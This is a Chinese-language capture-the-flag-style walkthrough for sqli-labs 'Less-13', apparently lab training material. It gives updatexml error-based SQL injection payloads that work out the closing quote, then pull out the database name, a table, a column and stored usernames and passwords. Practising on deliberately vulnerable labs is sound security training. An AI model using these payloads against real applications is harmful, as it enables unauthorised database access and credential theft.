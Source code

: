 ```yaml
---
title: Less - 13
date: 2023-03-14T14:11:12Z
lastmod: 2023-03-14T14:20:28Z
---
```


# Less - 13

---

# 通关教程

---

## 1、判断闭合方式

---

```html
uname=admin'&passwd=admin&submit=Submit #页面回显错误信息
```

​![image](assets/image-20230314141419-2sjsca5.png)​

通过报错信息我们知道闭合方式为’)，并且为字符型注入。因为这里没有数据回显，但是我们观察到有完整的错误信息，所以这里可以使用Boolean盲注报错注入攻击

---

## 2、查看当前数据库

---

```html
uname=a') or updatexml(1,concat(0x7e,(database()),0x7e),1)#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314141645-7m1ly99.png)​

---

## 3、查看security库下的第一张表

---

```html
uname=a') or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1)#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314141745-65f89hy.png)​

---

## 4、查看users表下的第一个字段

---

```html
uname=a') or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1)#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314141912-dstrkit.png)​

---

## 5、查看username和password字段的第一个值

---

```html
uname=a') or updatexml(1,concat(0x7e,(select concat(username,password) from security.users  limit 0,1),0x7e),1)#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314142013-hw414wh.png)​

‍
